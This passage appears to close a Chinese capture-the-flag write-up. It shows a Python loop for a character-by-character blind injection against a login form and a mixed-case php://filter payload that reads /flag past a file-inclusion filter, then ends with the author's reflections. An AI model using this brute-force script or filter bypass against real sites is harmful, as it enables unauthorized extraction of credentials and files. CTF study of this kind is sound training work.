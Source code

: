 ```python
for i in range(20, 35):
    for j in chars:
        time.sleep(0.2)
        temp_payload = payload.format(target=target, index=str(i), char=j)

        token = get_csrf()

        temp_data = data.format(username=temp_payload, token=token)
        res = session.post(url=base_url+'login.php',
                           data=temp_data, headers=headers)
        # print(temp_data)
        # print(res.text)
        # print(len(res.text))
        if len(res.text) == 5:
            result += j
            break
    print(result)
```

查md5值，然后登陆后台，发现有个有过滤的文件包含，可以用大小写直接过读/flag。

phP://filter/convert.bAse64-encode/resource=/flag

## 总结
其实不少题目分析下来还不太难，不过文件包含的思路倒是学了不少。打成这个样子，一方面是题做得少（下回要多扫几眼比赛的wp）,一方面是写脚本的速度太慢了，最后考虑下有空看下二进制？
